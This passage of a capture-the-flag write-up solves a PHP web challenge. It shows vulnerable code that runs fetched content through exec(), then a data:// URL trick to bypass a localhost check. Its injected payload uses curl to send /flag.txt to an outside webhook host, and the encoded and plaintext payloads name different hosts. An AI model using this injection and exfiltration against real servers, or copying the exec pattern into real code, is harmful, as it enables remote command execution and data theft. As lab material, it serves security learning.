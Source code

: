 ```
        if ($content === FALSE) {
            $error = error_get_last();
            throw new Exception("Unable to fetch content from the URL. Error: " . $error['message']);
        }
        return base64_decode($content);
    }

    if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['url'])) {
        $url = $_GET['url'];
        $allowedIP = 'localhost';
        
        if (isAllowedIP($url, $allowedIP)) {
            $content = fetchContent($url);
            // file upload removed due to security issues
            if ($content) {
                $command = 'echo ' . $content . ' | base64 > /tmp/' . date('YmdHis') . '.tfc';
                exec($command . ' > /dev/null 2>&1');
                // this should fix it
            }
        }
    }
    ?>
```

So we need to bypass the `isAllowedIP` method check and also make URL return contents such that it escapes the `command` while executing it.Data URL is the saviuor here, with which we can bypass `localhost` check and retunr `HTML` content. Since *fetchContent* method returns Base64 decoded content, we need to base64 encode our contents

```
#payload
&&curl webhook.site/cd422221-7ea9-44f2-bf5a-416cc2ef6350?q=$(cat /flag.txt | base64 | tr -d "\n")

#encoding it in data URL
data://localhost/text/html,JiZjdXJsIDFhY2QxeHh5ZTlwZ295ajloanVocWM2OGV6a3E4dHdpLm9hc3RpZnkuY29tP3E9JChjYXQgL2ZsYWcudHh0IHwgYmFzZTY0IHwgdHIgLWQgIlxuIik=
```

```
 curl -X $'GET' $'http://challs.tfcctf.com:32706/?url=data://localhost/text/html,JiZjdXJsIDFhY2QxeHh5ZTlwZ295ajloanVocWM2OGV6a3E4dHdpLm9hc3RpZnkuY29tP3E9JChjYXQgL2ZsYWcudHh0IHwgYmFzZTY0IHwgdHIgLWQgIlxuIik='
```

![](../assets/2024/tfcctf/safe_content2.png)
